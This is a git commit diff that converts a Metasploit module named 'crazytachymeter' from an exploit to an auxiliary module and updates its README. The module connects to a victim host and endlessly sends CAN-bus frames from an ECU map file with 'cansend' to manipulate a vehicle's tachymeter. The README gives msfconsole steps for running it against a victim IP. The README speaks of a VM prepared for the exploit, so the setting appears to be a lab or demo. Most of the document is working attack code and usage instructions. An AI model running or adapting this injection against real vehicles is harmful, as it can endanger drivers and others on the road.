

Aux - change img - update readme

diff --git a/exploit/crazytachymeter.rb b/exploit/crazytachymeter.rb
@@ -2,7 +2,7 @@
 # This module requires Metasploit: https://metasploit.com/download
 # Current source: https://github.com/rapid7/metasploit-framework
 ##
-class MetasploitModule < Msf::Exploit::Remote
+class MetasploitModule < Msf::Auxiliary
   Rank = NormalRanking
 
   include Msf::Exploit::Remote::Tcp
@@ -19,31 +19,16 @@ class MetasploitModule < Msf::Exploit::Remote
       'License'        => MSF_LICENSE,
       'Platform'       => 'unix',
       'Arch'           => ARCH_CMD,
-      'Payload'        =>
-      {
-        'Space'       => 1024,
-        'DisableNops' => true,
-        'Compat'      =>
-        {
-          'PayloadType' => 'cmd',
-          'RequiredCmd' => 'generic ruby telnet'
-        }
-      },
-      'Targets'        =>
-      [
-        ['Automatic Target', {}]
-      ],
-      'DefaultTarget' => 0
       )
     )
-
     register_options([
-      Opt::RPORT(4444),
-      OptString.new('FILEMAP', [true, 'Path to FILEMAP', '/usr/share/metasploit-framework/data/wordlists/controlUnitMapCanBus.txt'])
+      OptInt.new('RPORT', [ true, 'The target port']),
+      OptString.new('INTERFACE', [true, 'Interface of CAN-Bus']),
+      OptString.new('FILEMAP', [true, 'Path to FILEMAP', ::File.join(Msf::Config.data_directory, 'wordlists', 'controlUnitMapCanBus.txt')])
     ])
   end
 
-  def exploit
+  def run
     connect
     print_status("Connected to #{rhost}:#{rport}...")
     print_status(' -- OPENING CONTROL UNIT MAP --')
@@ -57,7 +42,7 @@ class MetasploitModule < Msf::Exploit::Remote
     while 1
       lines.each_with_index{
         |e, i|
-        cmd = 'cansend vcan0 ' + "#{e}"
+        cmd = "cansend #{datastore['INTERFACE']} #{e}"
         sock.put(cmd)
       }
     end

diff --git a/README.md b/README.md
@@ -35,7 +35,7 @@ Now your VM is ready and vulnerable for the exploit.
 ### How to setup the exploit on Kali Linux
 On Kali Linux, copy the:
 
-  */exploit/crazytachymeter.rb* --> to --> */usr/share/metasploit-framework/modules/exploits/unix/misc/*
+  */exploit/crazytachymeter.rb* --> to --> */usr/share/metasploit-framework/modules/auxiliary/spoof/replay/*
   
   Then copy the
   
@@ -43,9 +43,11 @@ On Kali Linux, copy the:
 
 After that, open the msfconsole and then, enter the following commands:
 ```
-  use exploit/unix/misc/crazytachymeter 
+  use auxiliary/spoof/replay/crazytachymeter 
   set RHOST [IP_Victim]
-  exploit
+  set RPORT [PORT_Victim]
+  set INTERFACE canbusinterface (e.g. vcan0)
+  run
 ```
 Now you can see the exploit running.. Look at the tachymeter.
 You can also change the path of the file with a new ECU mapping!
